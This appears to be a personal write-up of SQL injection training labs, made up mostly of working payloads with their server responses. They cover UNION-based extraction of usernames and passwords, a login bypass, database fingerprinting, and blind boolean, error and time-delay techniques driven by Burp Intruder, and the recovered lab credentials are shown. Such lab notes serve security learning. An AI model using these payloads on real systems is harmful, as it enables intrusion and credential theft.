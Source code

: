 # SQLi

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database

### SQL injection attack, querying the database type and version on Oracle
```
?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases
```
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### SQL injection attack, listing the database contents on Oracle
```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k
```

## Blind SQL injection vulnerabilities

### Blind SQL injection with conditional responses

Determine password length:
```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=6--;
```

Use Burp Suite Intruder (payload Brute-force `a-z0-9`) to get password one character at a time.
If the server response contains `Welcome back` then we know we guessed the character correctly.
```
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,3,1)='§a§'--;
...
```
Password is: `nqk8kg`

### Blind SQL injection with conditional errors

Determine password length:
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds with HTTP 500 then we know we guessed the character correctly.
This time I used attack type `Cluster bomb` and set 2 payloads right away - the first payload was a simple
number iterator and the second payload was Brute-force `a-z0-9`.
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,§1§,1)='§a§')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```
Password is: `2req0w`

### Blind SQL injection with time delays
```
TrackingId=x'||pg_sleep(10)--
```

### Blind SQL injection with time delays and information retrieval

Determine password length:
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sleep(5)+else+null+end+from+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds in more than 10 secs then we know guessed the character correctly.
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,§1§,1)='§a§')+then+pg_sleep(10)+else+null+end+from+users--;
```

Password is: `2req0w`
```
bu15v4
```